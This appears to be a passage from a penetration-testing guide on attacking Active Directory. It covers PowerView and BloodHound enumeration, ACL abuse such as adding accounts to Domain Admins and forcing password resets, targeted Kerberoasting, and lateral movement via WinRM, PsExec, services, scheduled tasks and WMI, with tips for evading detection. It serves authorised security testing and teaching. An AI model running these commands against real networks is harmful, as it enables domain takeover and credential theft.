DACLs on AD objects govern which principals can rewrite what attributes, and the interesting ACEs (GenericAll, GenericWrite, WriteDACL, WriteOwner, ForceChangePassword, AllExtendedRights) are almost always where the escalations live. Get-DomainObjectAcl -ResolveGUIDs turns the raw ACE data into human-readable rights.
Every ACE against a specific target:
# All ACEs currently applied to the target object, with rights resolved to readable names
Get-DomainObjectAcl -Identity <target-user> -ResolveGUIDsEvery principal with GenericAll over any object in the domain:
# GenericAll = full control over the object (reset password, add to group, write any attribute)
Get-DomainObjectAcl -ResolveGUIDs |
Where-Object { $_.ActiveDirectoryRights -match 'GenericAll' }Principals that can write msDS-AllowedToActOnBehalfOfOtherIdentity on a computer (RBCD attack surface):
# Writing this attribute lets the attacker configure Resource-Based Constrained Delegation on the target
Get-DomainObjectAcl -ResolveGUIDs |
Where-Object { $_.ObjectAceType -eq 'msDS-AllowedToActOnBehalfOfOtherIdentity' }Principals holding ForceChangePassword over a target account:
# ForceChangePassword = reset the target's password without knowing the current one
Get-DomainObjectAcl -Identity <target-user> -ResolveGUIDs |
Where-Object { $_.ObjectAceType -eq 'User-Force-Change-Password' }Methodology
- List every ACE currently applied to a target object with rights resolved:
Get-DomainObjectAcl -Identity <target-user> -ResolveGUIDs - Surface every principal with a full-control-equivalent ACE domain-wide:
Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match 'GenericAll|GenericWrite|WriteDacl|WriteOwner' } - Locate ForceChangePassword rights over a specific account:
Get-DomainObjectAcl -Identity <target-user> -ResolveGUIDs | Where-Object { $_.ObjectAceType -eq 'User-Force-Change-Password' } - Locate principals that can write
msDS-AllowedToActOnBehalfOfOtherIdentity(RBCD attack surface):Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $_.ObjectAceType -eq 'msDS-AllowedToActOnBehalfOfOtherIdentity' }
2.9 Trust Enumeration
Trust relationships extend the attack surface across a boundary that would otherwise be closed. PowerView surfaces both intra-forest and inter-forest trusts, and its recursive mapping traverses every reachable trust in a single pass.
# Trusts DIRECTLY established by the current domain (in/out/bidirectional, transitive or not)
Get-DomainTrust
# Trusts at the FOREST level: includes cross-forest trusts and the trust type
Get-ForestTrust
# RECURSIVELY walks every reachable trust from the current domain and returns the full graph
Get-DomainTrustMappingEnumerate users and groups in a trusted domain by passing -Domain:
# Query objects in a trusted domain rather than the current one
Get-DomainUser -Domain <trusted-domain.local> -Properties samaccountname, memberofMethodology
- Enumerate direct and forest-level trusts from the current domain:
Get-DomainTrust Get-ForestTrust - Recursively walk every reachable trust in a single pass:
Get-DomainTrustMapping - Query users or groups inside a trusted domain:
Get-DomainUser -Domain <trusted-domain.local> -Properties samaccountname, memberof
2.10 OU and GPO Enumeration
GPOs applied at the OU level often carry the interesting settings, including script deployment, restricted group memberships, and local admin assignment. Finding which OU an account sits under tells you which GPOs actually apply to it.
List OUs and inspect the GPO links attached to one:
# Every OU in the domain, name and distinguished name only
Get-DomainOU -Properties name, distinguishedname
# gplink attribute lists the GPO GUIDs applied to that OU, in evaluation order
Get-DomainOU -Identity <ou-name> | Select-Object -ExpandProperty gplinkAll GPOs in the domain:
# Every GPO with its display name and SYSVOL path (where the actual policy files live)
Get-DomainGPO -Properties displayname, gpcfilesyspathMachines a specific GPO applies to, via its GUID:
# Reverse lookup: find every computer under an OU that links a given GPO
Get-DomainOU -GPLink <gpo-guid> | Get-DomainComputerFind GPOs that assign local admin rights (Restricted Groups policy):
# Surfaces GPOs that push local group membership (Administrators, Remote Desktop Users, etc.)
Get-DomainGPOLocalGroup -Properties GroupName, GPODisplayNameMethodology
- List every OU and inspect the GPOs linked to one:
Get-DomainOU -Properties name, distinguishedname Get-DomainOU -Identity <ou-name> | Select-Object -ExpandProperty gplink - List every GPO with its SYSVOL path:
Get-DomainGPO -Properties displayname, gpcfilesyspath - Reverse-lookup computers a specific GPO applies to via its GUID:
Get-DomainOU -GPLink <gpo-guid> | Get-DomainComputer - Surface GPOs that assign local admin rights (Restricted Groups policy):
Get-DomainGPOLocalGroup -Properties GroupName, GPODisplayName
2.11 Metasploit + PowerSploit
Metasploit's load powershell extension imports PowerView scripts into a Meterpreter session and executes cmdlets in-memory:
load powershell
powershell_import /root/Desktop/PowerView.ps1
powershell_execute Get-NetDomain
Powershell_execute Invoke-EnumerateLocalAdminChain in HostEnum.ps1 for local host reconnaissance from the same session:
powershell_import /root/Desktop/HostEnum.ps1
powershell_shell Invoke-HostEnum -Local -DomainHostRecon.ps1 from dafthack/HostRecon covers what egress ports, EDR products, and network filtering are in place:
powershell_import /root/Desktop/HostRecon.ps1
powershell_execute Invoke-HostRecon2.12 Raw DirectorySearcher Scripts
When PowerView is unavailable or blocked, direct System.DirectoryServices.DirectorySearcher calls achieve the same result. The pattern is: get the current domain, build an LDAP path to the PDC, then set a filter. Enumerate all user accounts:
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter = "samAccountType=805306368"
$Searcher.FindAll()Change the filter to target a specific account:
$Searcher.filter = "name=<account-name>"
$Result = $Searcher.FindAll()
Foreach ($obj in $Result) {
Foreach ($prop in $obj.Properties) { $prop }
Write-Host "------------------------"
}Enumerate all groups:
$Searcher.filter = "(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach ($obj in $Result) { $obj.Properties.name }Enumerate members of a specific group:
$Searcher.filter = "(name=<group-name>)"
$Result = $Searcher.FindAll()
Foreach ($obj in $Result) { $obj.Properties.member }Enumerate SPNs, a stepping stone toward Kerberoasting. Filter for HTTP SPNs and iterate the results:
$Searcher.filter = "serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach ($obj in $Result) {
Foreach ($prop in $obj.Properties) { $prop }
}Methodology
- Fall back to raw .NET when PowerView and RSAT cmdlets are blocked:
$Searcher = New-Object System.DirectoryServices.DirectorySearcher $Searcher.filter = "samAccountType=805306368" $Result = $Searcher.FindAll() Foreach ($obj in $Result) { $obj.Properties.name }
2.13 AD Enumeration with dsquery
dsquery ships with Windows Server and RSAT and is often present on jump hosts where PowerView isn't. It's noisy but works when other options are gone:
dsquery user -limit 0
dsquery group "cn=users, dc=target, dc=com"
dsquery group -name "domain admins" | dsget group -members -expand
dsquery user -name user | dsget user -memberof -expand
dsquery user -name bob | dsget user -samid
dsquery user -inactive 3Methodology
- Use dsquery as an off-the-land fallback when PowerShell is locked down:
dsquery user -limit 0 dsquery group "cn=users, dc=<domain>, dc=<tld>"
2.14 Adalanche
Adalanche is a modern alternative to BloodHound with strong Kerberos and delegation support. Its web UI leans on a single graph view that groups edges by category, which I sometimes find easier to read than BloodHound's pathfinding for wide-open environments. Collection is a single Go binary invocation:

./adalanche collect activedirectory --domain \
--username @ --password '' \
--server Certificate validation failures are common in lab environments, disable TLS to work around them:
./adalanche collect activedirectory --domain \
--username @ --password '' \
--server --tlsmode NoTLS --port 389 --authmode basic Analyze in the browser:
./adalanche analyze
# then open http://127.0.0.1:8080Methodology
- Collect the AD dataset with Adalanche and browse the resulting graph:
adalanche collect activedirectory --domain <domain.local> --username <user> --password '<password>' adalanche analyze
2.15 Exporting and Reusing Enumerated Objects
Freeze the enumeration for offline analysis using PowerShell's XML serialization. Export-Clixml serializes whole objects, properties, methods, everything, to a portable XML file:
Get-DomainUser | Export-Clixml .\DomainUsers.xml
$DomainUsers = Import-Clixml .\DomainUsers.xml
$DomainUsers | select name
$DomainUsers | ? {$_.name -match "admin"}Methodology
- Freeze enumeration output for offline analysis:
Get-DomainUser | Export-Clixml .\DomainUsers.xml - Reload later and filter without re-running the query:
$DomainUsers = Import-Clixml .\DomainUsers.xml $DomainUsers | select name $DomainUsers | ? {$_.name -match "admin"}
3. Active Directory BloodHound
BloodHound converts the AD relationship graph into something you can actually query. Under the hood it is Neo4j; on top of that sits a client that ships pre-built Cypher queries for the questions attackers actually ask, starting with "what is the shortest path from here to Domain Admin?". That single query has quietly ended more assessments than any zero-day I have ever handled.
Two collector families exist. SharpHound is the C# implementation for on-premises AD, distributed as an executable with an older PowerShell wrapper. AzureHound covers Entra ID. Both feed the same graph. Most of the operator work happens up front, choosing a collection method the environment's sensors will tolerate, and getting a matching-version collector onto a domain-joined host without lighting up the SOC.

3.1 Installation
Kali packages BloodHound and Neo4j:
apt install bloodhoundOr install Neo4j directly from Neo Technology's Debian repository:
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4.0' > /etc/apt/sources.list.d/neo4j.list
sudo apt-get update
apt-get install apt-transport-https
sudo apt-get install neo4j
systemctl stop neo4j
sudo /usr/bin/neo4j consoleLaunch the client (Community Edition):
./BloodHound.bin --no-sandbox
neo4j console
Bloodhound3.2 BloodHound Editions
Two flavors exist. BloodHound Enterprise is the SpecterOps SaaS platform aimed at defenders, continuous collection, attack-path management, and remediation guidance. BloodHound Community Edition (CE) is the free open-source client used by pentesters and red teams. CE is what you'll run in engagements; Enterprise is what customers deploy to defend themselves.
3.3 SharpHound Collection Methods
Each SharpHound collection method targets a different data source. Picking the right combination for the engagement changes both the depth of the graph and the noise on the wire.
| Method | What it collects |
|---|---|
Group | Group membership from every domain object |
LocalGroup | Local group membership on every reachable host (Administrators, Remote Management Users, etc.) |
Session | Active logon sessions via NetSessionEnum against each host, the session collection method drives HasSession edges |
LoggedOn | Interactive logon users via NetWkstaUserEnum (needs admin on the target) |
ACL | DACLs on every AD object, source of GenericAll / WriteDacl / ForceChangePassword edges |
ObjectProps | Extended object properties (description, email, service principal names, delegation flags), needed for many post-collection queries |
Trusts | Domain and forest trust relationships |
Container | OU and Container object structure (needed to resolve GPO scope) |
GPOLocalGroup | Restricted Groups policy from linked GPOs, surfaces GPO-driven local admin assignments |
SPNTargets | Service principal names for downstream Kerberoasting analysis |
CertServices | ADCS objects (CAs, templates, enrollment services), required for ADCSESC edges |
DCOnly | Metadata against the DC only, no session/loggedon queries against member hosts (quietest) |
All | Every method above except DCOnly |
SharpHound.exe --CollectionMethods All --Domain <domain.local>
SharpHound.exe --CollectionMethods DCOnly,CertServices --Domain <domain.local> # quiet + ADCS
SharpHound.exe --CollectionMethods Session,LoggedOn --Domain <domain.local> # top up an old collectionThe DCSync edges (GetChanges and GetChangesAll) come from ACL collection on the domain root. A principal holding both extended rights can perform DCSync directly:
# Every principal that can DCSync the domain
MATCH p=(n)-[:GetChanges|GetChangesAll]->(d:Domain) RETURN p3.4 SharpHound Collectors

Three collectors are commonly used:
| Collector | Description |
|---|---|
SharpHound.ps1 | PowerShell wrapper. Newer releases dropped the PS1, but older versions are ideal for in-memory RAT execution. |
SharpHound.exe | Standalone Windows binary. Runs under a domain user's context. |
AzureHound.ps1 | Azure AD (Entra) collector, feeds into the same graph. |
Execution options with lower OpSec footprint:
- Upload and run the EXE or PS1 directly on the target
- Use PowerShell alternatives such as PowerPick to run the PS1 without spawning powershell.exe
- Use C2 execute-assembly (Cobalt Strike, Covenant, Sliver) to run the EXE reflectively
Basic collection with method selection and DC exclusion:
Sharphound.exe --CollectionMethods <Methods> --Domain --ExcludeDCs Key flags:
| Flag | Description |
|---|---|
--Stealth | single-threaded; slower but quieter |
--ExcludeDomainControllers | skip loud DC queries at the cost of some data |
--ComputerFile | supply an explicit list of hosts for targeted collection |
3.4 Data Collection
A fresh BloodHound database is empty; SharpHound populates it. Two ways to get the collector into the environment:
- Compile SharpHound3 yourself from source, I prefer this for client work; you know exactly what executes
- Grab a pre-built release from GitHub and match its version to your BloodHound install
Version mismatch between collector and client silently truncates data during ingest, always run matching versions.
3.5 Abusable Permissions Overview
BloodHound's real value is visualizing the graph of permissions that attackers can chain to escalate. A handful of edges are worth memorizing:
| Permission | Effect |
|---|---|
| ForceChangePassword | reset another user's password without knowing the current one |
| AddMembers | add accounts to a group, potentially granting elevated rights |
| GenericAll | full control; do anything to the object |
| GenericWrite | write to any non-protected attribute |
| WriteOwner | take ownership of the object, then grant yourself further rights |
| WriteDACL | modify the object's ACL to grant yourself GenericAll |
| AllExtendedRights | extended rights include password reset and DCSync |
| ReadLAPSPassword | read the local admin password managed by LAPS |
3.6 Running Queries
BloodHound ships pre-built queries in the Analysis tab. The three most-run in the wild:
- Find All Domain Admins
- Shortest Paths to Domain Admins
- Find All Users with Constrained/Unconstrained Delegation
These queries surface misconfigurations and excessive privileges, the exact things attackers chain together.
3.7 Identifying Local Administrators
Cypher query for users who are local admin somewhere:
(u:User)-[:AdminTo]->(c:Computer)Local admin means complete control of a machine: persistence, LSASS dumping, credential extraction. The reverse question, "who are the explicit admins on this box?", uses the Explicit Admins and Unrolled Admins node views.
3.8 Identifying Active Sessions
The HasSession edge shows which users are currently logged onto which hosts, invaluable for spotting exposed high-value tokens:
(u:User)-[:HasSession]->(c:Computer)The reverse view identifies which users have live sessions on a specific target.
3.9 Viewing ACLs
GenericAll is the strongest edge, anything you can do with the object, you can do:
(u:User)-[:GenericAll]->(g:Group)Track dangerous ACLs across the graph: ForceChangePassword, AddMembers, GenericAll, GenericWrite, ReadLAPSPassword.
3.10 Unconstrained Delegation
Computers with unconstrained delegation cache the TGT of every user who authenticates to them. Compromise the box, extract the tickets, then impersonate any user in the domain. Domain Admins land in scope the moment I can coerce a DC into authenticating.

Constrained delegation is the safer cousin: the account can only impersonate to a specific set of listed SPNs. Even that gets abused when the SPN list includes something reachable and the S4U2Self / S4U2Proxy extensions are usable.

(c:Computer {UnconstrainedDelegation:true})(c:Computer {UnconstrainedDelegation:true})Custom Cypher for non-DC computers with unconstrained delegation:
MATCH (dc:Computer)-[:MemberOf*1..]->(g:Group)
WHERE g.objectsid ENDS WITH "516"
WITH COLLECT(dc) as domainControllers
MATCH p = (d:Domain)-[:Contains*1..]->(c:Computer {unconstraineddelegation:true})
WHERE NOT c IN domainControllers
RETURN p3.11 Shortest Path to Domain Admins
The killer feature. One Cypher query maps every route from any starting node to Domain Admins, and the client draws it for you.

p=shortestPath((n)-[*1..]->(m))
RETURN pCombined with the built-in filters for group memberships, sessions, ACLs, and administrative rights, this surfaces the concrete steps between your foothold and full domain compromise.
3.12 Password Reset Attack Path
ForceChangePassword is one of the most reliable escalation edges. Chain of these can lift a low-privileged user all the way to Domain Admin. Two caveats: an active user will notice their password changed, and stealthier operators check lastLogonTimestamp before resetting.
3.13 Group Membership
Adding a user to a group ("AddMember" edge) is often quieter than resetting a password, group changes are frequently below monitoring thresholds. Chaining group nesting lets an unprivileged user gradually reach Domain Admin without ever appearing directly in a privileged group.
3.14 Permissions
WriteDACL lets the attacker rewrite an object's ACL to grant themselves any permission. It's a pivot edge that turns into GenericAll, ForceChangePassword, or AddMember depending on how the attacker uses it.
3.15 Data Interpretation
Every node has an info panel with the following tabs:
| Tab | Contents |
|---|---|
| Overview | session count, whether it reaches high-value targets |
| Node Properties | display name, title, description |
| Extra Properties | distinguished name, creation date, and other AD-specific metadata |
| Group Membership | direct and transitive group membership |
| Local Admin Rights | where this account is a local admin |
| Execution Rights | RDP, PSRemote, DCOM privileges |
| Outbound Control Rights | objects this account can modify |
| Inbound Control Rights | objects that can modify this account |
3.16 Exploiting GenericWrite
GenericWrite lets an attacker rewrite most attributes of an object. Three high-impact abuses come up repeatedly on assessments:

| Abuse | Description |
|---|---|
| Targeted Kerberoasting via SPN | write a bogus SPN, request a service ticket, crack offline, remove the SPN |
| Group membership | add yourself to the target group directly |
| Shadow Credentials via computer objects | write msDS-KeyCredentialLink to register a certificate that can authenticate via Kerberos PKINIT |
Add a user directly to a group via net rpc (requires appropriate permissions on the target group):
net rpc group addmem "Domain Admins" -U /%'' -S Same operation with BloodyAD over LDAP, often cleaner:
bloodyAD --host "" -d "" -u "" -p "" add groupMember "Domain Admins" "" From a Windows shell with the right rights:
net group "Domain Admins" /add /domain Or via PowerView / AD RSAT PowerShell:
powershell -ep bypass
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString '' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('\', $SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members '' -Credential $Cred 3.17 Exploiting ACEs and Permission Delegations
Access Control Entries (ACEs) populate DACLs on nearly every AD object. Misconfiguration turns them into escalation paths. A classic example is IT Support holding ForceChangePassword over Domain Users. That is legitimate for helpdesk password resets, but it also lets a helpdesk operator reset a Domain Admin's password if the tiering is not enforced.

Types of ACEs worth memorizing:
| ACE | Effect |
|---|---|
| ForceChangePassword | set the current password without knowing the old one |
| AddMembers | add users, groups, or computers to the target group |
| GenericAll | complete control |
| GenericWrite | write to any non-protected attribute |
| WriteOwner | take ownership of the object |
| WriteDACL | modify the object's DACL |
| AllExtendedRights | any extended right, including DCSync |
3.18 Exploiting WriteDACL
WriteDACL over a group means adding yourself with any permission you want. Once the DACL is rewritten to grant you GenericAll, you can freely add yourself to the group.
3.19 Exploiting AddMembers
Domain Users → IT Support (AddMembers) means any domain user can add themselves to IT Support. Chained: Domain Users → IT Support → Tier 2 Admins with additional ACEs granting further access:
Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
Get-ADGroupMember -Identity "Tier 2 Admins"3.20 Exploiting ForceChangePassword
With IT Support holding ForceChangePassword over Tier 2 Admins, target a Tier 2 admin and reset their password with Set-ADAccountPassword:

Get-ADGroupMember -Identity "Tier 2 Admins"
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force
Set-ADAccountPassword -Identity target.user -NewPassword $Password -ResetPractical BloodyAD example, reset password given ANSIBLE_DEV$ holds ForceChangePassword over SAM:
bloodyAD -d -u -p hacked-password --host get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword With WriteOwner over another account, chain ownership → GenericAll → password reset. Take ownership then grant yourself GenericAll:
bloodyAD -d -u -p '' --host set owner john sam
bloodyAD -d -u -p '' --host add genericAll john sam 3.21 Exploiting WriteSPN
An account's WriteSPN right on another lets us register an SPN on the target and request a TGS, the ticket's encrypted with the target's password, so crack it offline. This is targeted Kerberoasting: add SPN → request TGS → crack → remove SPN.
git clone https://github.com/ShutdownRepo/targetedKerberoast
python3 targetedKerberoast.py -v -d 'domain.local' --request-user -u -p 'password'
john --format=krb5tgs --wordlist=rockyou.txt hashes.txt 3.22 Exploiting ReadGMSAPassword
Group Managed Service Accounts (GMSAs) have their passwords rotated automatically by DCs (see msDS-ManagedPasswordInterval). Any principal authorized to read msDS-ManagedPassword can retrieve the current secret and impersonate the GMSA:
bloodyAD -d -u -p hacked-password --host get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword 3.23 Auditing ACLs
BloodHound makes ACL analysis tractable, with two caveats to remember:
- Scope is limited to ACLs directly abusable for object control, OU and GPO ACLs aren't fully ingested.
- Only "Allow" ACEs are considered. Effective access (as the SRM would compute in canonical order) isn't calculated.
3.24 Understanding Inbound Object Control
Inbound Object Control on a group's info tab breaks influencers into three categories: explicit ACEs, group-based ACEs, and inherited ACEs. Use this view to answer "who can modify this group?" before deciding which chain to abuse.
3.25 Custom Cypher Queries
The pre-built Analysis tab covers the common questions but stops short at the interesting ones. Cypher is Neo4j's query language and every BloodHound graph can be queried directly in the raw query box. Understanding four primitives is enough to build most attack-relevant queries.
# MATCH: pattern-match nodes and edges
MATCH (u:User) RETURN u
# WHERE: filter by property
MATCH (u:User) WHERE u.enabled = true RETURN u.name
# Relationship: round brackets for nodes, square brackets for edges
MATCH (u:User)-[r:MemberOf]->(g:Group) RETURN u.name, g.name
# Variable-length paths: [*1..5] means one to five hops
MATCH p=(u:User)-[*1..5]->(g:Group {name:"DOMAIN ADMINS@"}) RETURN p Queries worth keeping in a snippet file:
# Every Kerberoastable user reachable from any owned node
MATCH (u:User {owned:true})-[*1..]->(t:User {hasspn:true}) RETURN u.name, t.name
# Every unconstrained delegation computer, excluding domain controllers
MATCH (c:Computer {unconstraineddelegation:true})
WHERE NOT (c)-[:MemberOf*1..]->(:Group {objectid:ENDS WITH '-516'})
RETURN c.name
# Users with a path to Domain Admins through any ACL edge
MATCH p=shortestPath((u:User)-[:GenericAll|GenericWrite|WriteDacl|WriteOwner|ForceChangePassword|AddMember*1..]->(g:Group {name:"DOMAIN ADMINS@"}))
RETURN p
# High-value targets reachable in three hops or fewer from any owned principal
MATCH p=shortestPath((n {owned:true})-[*1..3]->(m {highvalue:true}))
RETURN p
# Computers where any Domain User has local admin (helpdesk over-delegation)
MATCH p=(u:User)-[:MemberOf*1..]->(g:Group)-[:AdminTo]->(c:Computer)
WHERE g.name STARTS WITH 'DOMAIN USERS'
RETURN c.name
# Sessions of any Domain Admin
MATCH (u:User)-[:MemberOf*1..]->(g:Group {name:"DOMAIN ADMINS@"}),
(u)-[:HasSession]->(c:Computer)
RETURN u.name, c.name 3.26 Marking Owned and High-Value Nodes
Two flags on the node influence shortest-path queries and pathfinding priorities:
| Flag | Role | Effect |
|---|---|---|
owned | Origin | Marked nodes count as starting points for "Shortest Paths from Owned" queries. |
highvalue | Destination | Marked nodes become path targets. Domain Admins and similar groups are highvalue out of the box. |
In the BloodHound CE UI, right-click a node and choose Mark as Owned or Mark as High Value. Bulk marking is faster with the API, especially after a large SharpHound ingest:
# API auth (BloodHound CE ships with an /api/v2 endpoint)
curl -X POST http://<bhce>:8080/api/v2/login -H 'Content-Type: application/json' \
-d '{"login_method":"secret","username":"<admin>","secret":"<password>"}'
# Bulk mark a list of users as owned via the API
curl -X POST http://<bhce>:8080/api/v2/asset-groups/1/selectors \
-H 'Authorization: Bearer <token>' \
-H 'Content-Type: application/json' \
-d '{"selectors":[{"selector_name":"owned","object_ids":["<objectid-1>","<objectid-2>"]}]}'Legacy BloodHound (with Neo4j directly) accepts a Cypher WRITE:
MATCH (u:User) WHERE u.name IN ['<user1>@<domain.local>','<user2>@<domain.local>']
SET u.owned = true3.27 ADCS Ingestion
Recent SharpHound versions collect ADCS objects (CAs, templates, enrollment services) alongside the standard AD graph. BloodHound CE surfaces this as a dedicated ADCS domain and adds the ADCSESC edges that mirror the Certified Pre-Owned research.
# SharpHound v2 with certificate services collection
SharpHound.exe --CollectionMethods DCOnly,CertServices --Domain <domain.local>
# Every ADCSESC edge type in one query
MATCH p=(u:User)-[:ADCSESC1|ADCSESC3|ADCSESC4|ADCSESC6a|ADCSESC6b|ADCSESC7|ADCSESC9a|ADCSESC9b|ADCSESC10a|ADCSESC10b|ADCSESC13]->(t)
RETURN p
# Users with an ESC1 path to any high-value target
MATCH p=shortestPath((u:User)-[:ADCSESC1*1..]->(t {highvalue:true}))
RETURN pMethodology
- Stand up Neo4j and BloodHound CE with matching version numbers:
sudo systemctl start neo4j bloodhound - Run SharpHound with
--CollectionMethods All; add--Stealthif EDR is aggressive:SharpHound.exe --CollectionMethods All --Domain--ZipFileName loot.zip SharpHound.exe --CollectionMethods All --Stealth --ExcludeDomainControllers - Ingest the ZIP into BloodHound and mark starter nodes as owned.
- Run "Shortest Paths to Domain Admins" and "Shortest Paths from Owned to Domain Admins":
MATCH p=shortestPath((n {owned:true})-[*1..]->(m:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"})) RETURN p - Enumerate ACL edges, GenericAll, GenericWrite, WriteDACL, WriteOwner, ForceChangePassword, AddMembers, AllExtendedRights.
- Identify unconstrained delegation hosts and Kerberos-abuseable service accounts:
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c - Chain the shortest confirmed path, verifying each edge with BloodyAD, PowerView, or Impacket before proceeding:
bloodyAD --host <dc> -d domain.local -u user -p pass add groupMember 'CN=Target,CN=Users,DC=domain,DC=local' <user>
4. Windows Lateral Movement
Lateral movement is what happens between the first foothold and the objective. Every technique here trades stealth for reliability along a slightly different axis; the right one to pick depends on the sensor stack in the environment, whether logging is centralised, and whether the account you plan to reuse is expected to appear on the destination host at all.
Two questions I ask before touching a target: what account material do I have (password, NTLM hash, Kerberos ticket, cert), and what remote execution channels does the target actually accept (WinRM, DCOM, SMB service creation, task scheduler). The intersection of those two sets is usually a much shorter list than it looks.

4.1 PowerShell Remoting
PSRemoting rides WinRM on TCP 5985 (HTTP) or 5986 (HTTPS). Prereqs: WinRM enabled on the target (Enable-PSRemoting -Force), valid credentials, and network access. In-domain use is smoothest with Kerberos; cross-domain expect NTLM or CredSSP.
One-off command execution with explicit credentials:
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('\<user>', $SecPassword)
Invoke-Command -ComputerName <target> -Credential $Cred -ScriptBlock { whoami } Reusable session for multiple commands, avoids re-authenticating:
$sess = New-PSSession -ComputerName <target> -Credential $Cred
Invoke-Command -Session $sess -FilePath 'C:\FilePath\file.ps1'
Enter-PSSession -Session $sessStateful command execution with session-scoped variables:
Invoke-Command -Session $sess -ScriptBlock { $ps = Get-Process }
Invoke-Command -Session $sess -ScriptBlock { $ps }Always clean up with Remove-PSSession $sess. Common gotchas, access denied usually means wrong domain or wrong permission; WinRM not configured is fixed with Enable-PSRemoting -Force; name resolution issues respond to FQDNs or Test-WSMan.
4.2 PsExec
PsExec is a Sysinternals classic. Its flow:
- Upload a service binary to
ADMIN$namedpsexesvc.exe. - Register and start a
PSEXESVCservice pointing at that binary. - Wire named pipes for stdin/stdout/stderr.
Interactive shell as Administrator:
psexec64.exe \\IP -u Administrator -p -i cmd.exe 4.3 WinRM
The Linux client of choice for WinRM is evil-winrm. It handles NTLM, hash, ticket, and certificate auth, uploads/downloads files, and supports PowerShell script execution and .NET assembly loading in-memory:
# NTLM
evil-winrm -i <target-fqdn> -u <user> -p '<password>'
# Pass-the-Hash
evil-winrm -i <target-fqdn> -u <user> -H <ntlm-hash>
# Kerberos (needs a ticket in KRB5CCNAME and the DC in /etc/krb5.conf)
evil-winrm -i <target-fqdn> -r <domain.local>
# Load a PowerShell script from a local directory
evil-winrm -i <target-fqdn> -u <user> -p '<password>' -s /path/to/ps-modulesDouble-hop (also called the double hop problem) is the classic WinRM constraint: once you land on a remote session over WinRM, your credentials do not forward to a second remote system. CredSSP delegation is the sanctioned fix (deployed via GPO); without it, the second hop fails with an access-denied. Attacker options are Kerberos delegation (constrained or RBCD), or running the second hop via a local ticket:
# Client side: allow credentials to be delegated to specific targets (needs GPO or local policy)
Enable-WSManCredSSP -Role Client -DelegateComputer '<target-fqdn>'
# Then Invoke-Command with CredSSP
Invoke-Command -ComputerName <target-fqdn> -Credential $cred -Authentication CredSSP -ScriptBlock { whoami }4.3.1 winrm.exe (legacy)
Windows Remote Management is a web-based protocol for sending PowerShell commands to remote hosts. Ports 5985/5986. Users need Remote Management Users membership. From the command line:
winrm.exe -u:Administrator -p: -r: cmd PowerShell equivalent, build a PSCredential and open an interactive session:
$username = 'Administrator'
$password = ''
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock { whoami } 4.4 Service Management with sc.exe
Windows services run commands when they start. A service configured to run an arbitrary executable will still try to launch it and fail cleanly, which is fine for our purposes. Ports 135/TCP, 49152-65535/TCP (DCE/RPC), 445/TCP and 139/TCP (RPC-over-SMB). Requires Administrators membership on the target.
sc.exe \\TARGET create evil binPath= "net user /add" start= auto
sc.exe \\TARGET start evil
sc.exe \\TARGET stop evil
sc.exe \\TARGET delete evil 4.5 Scheduled Tasks
schtasks ships with every Windows install. Create a one-shot task running as SYSTEM, then run it manually:
schtasks /s TARGET /RU "SYSTEM" /create /tn "evil" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00
schtasks /s TARGET /run /TN "evil"
schtasks /S TARGET /TN "evil" /DELETE /F4.6 WMI
WMI can spawn processes and manage services on remote hosts. Build a credential object once, then choose a transport:
$username = 'Administrator'
$password = ''
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword Two protocol choices for the WMI session:
| Protocol | Transport |
|---|---|
| DCOM | RPC over IP via ports 135/TCP and 49152-65535/TCP |
| WSMan | WinRM (5985/5986) |
Open a CIM session over DCOM:
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction StopSpawn a process remotely, output isn't captured, so this is a blind attack:
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value "
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command } Legacy wmic from cmd:
wmic.exe /user:Administrator /password: /node:TARGET process call create "cmd.exe /c calc.exe" Create a Windows service via WMI:
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "evil2"
DisplayName = "evil2"
PathName = "net user 2 /add"
ServiceType = [byte]::Parse("16")
StartMode = "Manual"
}
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'evil2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete Create and run a scheduled task via CIM:
$Command = "cmd.exe"
$Args = "/c net user 22 /add"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "evil2"
Start-ScheduledTask -CimSession $Session -TaskName "evil2"
